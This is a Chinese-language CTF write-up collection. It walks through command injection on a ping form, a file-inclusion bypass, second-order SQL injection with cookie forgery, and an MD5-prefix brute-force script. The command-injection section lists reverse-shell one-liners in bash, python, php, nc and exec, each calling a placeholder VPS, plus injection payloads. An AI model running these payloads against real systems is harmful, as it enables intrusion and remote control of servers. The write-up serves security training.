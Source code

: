 ### 命令执行

![](CTF题目收集.assets/ctf-1.png)

无题目描述，拿到此题时，猜想是命令执行，当输入`ipconfig`,`ifconfig`命令的时候，给的提示是`get out Hacker`,按照`input`框说的给出`ip`,输入`ping 127.0.0.1`，发现结果变了如下图

![](CTF题目收集.assets/ctf-2.png)



发现命令是能跑起来，并且没有错误，同时使用burp跑了一下后台目录，发现有`flag.php`文件，但是访问`/flag.php`并没有回显，但是状态码是200，则证明是一个`php`的脚本，没有任何html相关的代码

在命令执行部分，只能访问`ip`才会被探测到，那么可以使用`;`,`&&`,`||`等执行第二条命令

构造payload

```shell
ping 1.1.1.1;ifconfig
```

发现回显`get out hacker`,猜想是有过滤，只保留一个关键字，将`ping`这个关键字去掉，发现没有被拦截，出现以下字符

![](CTF题目收集.assets/ctf-3.png)

那么猜想肯定是命令肯定是执行了的，因为服务器环境是`linux`，可以使用`ping 127.0.0.1`来查看是否执行了命令，因为在`linux`中如果不中止该命令，则会一直`ping`

```shell
-e 1.1.1.1;ping 127.0.0.1
```

![](CTF题目收集.assets/ctf-4.png)



说明一直在执行`ping`命令，那么服务器既然能成功执行`;`后面的命令，那么可以在`vps`上反弹shell

#### bash 反弹

```shell
bash -i >& /dev/tcp/<your_vps>/<your_port> 0>&1
```

#### python 一句话反弹

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_vps>",<your_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### php 一句话反弹

```shell
php -r '$sock=fsockopen("<your_vps>",<your_port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### NC命令反弹

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_vps> <your_port> >/tmp/f
```

#### exec 反弹

```shell
0<&196;exec 196<>/dev/tcp/<your_vps>/<your_port>; sh <&196 >&196 2>&196
```

因为此页面是`php`搭建的，所以使用`php` 一句话反弹shell，在`vps`上监听5000端口，在web页面执行`php`一句话反弹shell,如下图

![](CTF题目收集.assets/ctf-5.png)



经过试验，服务端没有python环境，能反弹shell回来的只有`php`一句话 反弹，`nc`命令反弹

#### 文件重定向

已知存在`flag.php`,可以将`flag.php`里的内容重定向到当前目录的`*.txt`文件中

```shell
cat flag.php > 1.txt
```

然后访问该`1.txt `就能看见`flag.php`里的内容

![](CTF题目收集.assets/ctf-7.png)



![](CTF题目收集.assets/ctf-8.png)



### 文件包含

![](CTF题目收集.assets/ctf-9.png)



打开F12查看`script`的`src`引入文件的方式并不是直接引入文件，而是使用`download.php?f=`的方式包含文件来引入文件，所以直接访问该接口包含文件

#### 相对路径包含文件

![](CTF题目收集.assets/ctf-10.png)

#### 绝对路径包含文件

![](CTF题目收集.assets/ctf-11.png)

flag文件在根目录下，并且代码中对`../`做了`replace`所以采用双写绕过，很可惜没有该服务器未开启远程文件包含，所以能做的事太少了

### 垂直越权

一般控制用户的权限都在后台，后台一般是放在cookie里或者发送隐藏的JWT到前台，以做到控制权限

创建一个普通用户`admin'#`，尝试二次注入攻击，猜想在修改密码处执行的`sql`语句是

```sql
update users set password = '' where username = ''
```

二次注入攻击会将admin用户的密码修改了，执行的`sql`语句是

```sql
update users set password = '123456' where username = 'admin'#'
```

`#`直接将单引号注释，达到闭合前面的`'`，尝试之后，发现修改的是`admin'#`的密码

查看是否可以垂直越权，抓包发现`cookie`处的`PHPLOG`很可疑，末尾要么是7，或者是77，和`base64`编码的`=`,`==`很类似，猜想是将`username`进行`base64`编码之后，再加上`'='——'7'`的偏移量-6

`base64`编码中只存在 A-Z、a-z、0-9、+、/  、=`ASCII`字符，对其进行从小到大的排列，将admin进行编码，再加上偏移量，加上偏移量如果不在base64编码中，则在A-Z，a-z，0-9循环，如4加上偏移量不是base64编码，当`/`结束之后，则循环再从z开始

修改之后则发现，修改密码成功，最后登入系统，拿到flag

![](CTF题目收集.assets/ctf-12.png)

![](CTF题目收集.assets/ctf-13.png)

### 代码审计

#### MD5 截断比较验证

```php
<?php
include "flag.php";
highlight_file(__FILE__);
if(!isset($_REQUEST['password'])){
    $content="submit password please!<br />\n";
    die($content);
}
$m=md5($_REQUEST['password']);
if(strtolower(substr($m,0,6))==='aaaaaa'){
    echo $flag;
}else{
    echo "what's the fuck?";
}
?>
```

将参数password进行MD5，hash，得到一串hash值，并从0位置截取6位字符（`strtolower`函数将字符转换为小写）为`'aaaaaa'`,如果相等则输出flag

直接上python脚本

```python
import hashlib
dict = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'


def md5(text):
    return hashlib.md5(str(text).encode('utf-8')).hexdigest()


for i in dict:
    for j in dict:
        for k in dict:
            for l in dict:
                for o in dict:
                    x = i + j + k + l + o
                    md5Code = md5(x)
                    if md5Code[:6] == 'aaaaaa':
                        print x
                    else:
                        continue
```

![](CTF题目收集.assets/ctf-14.png)


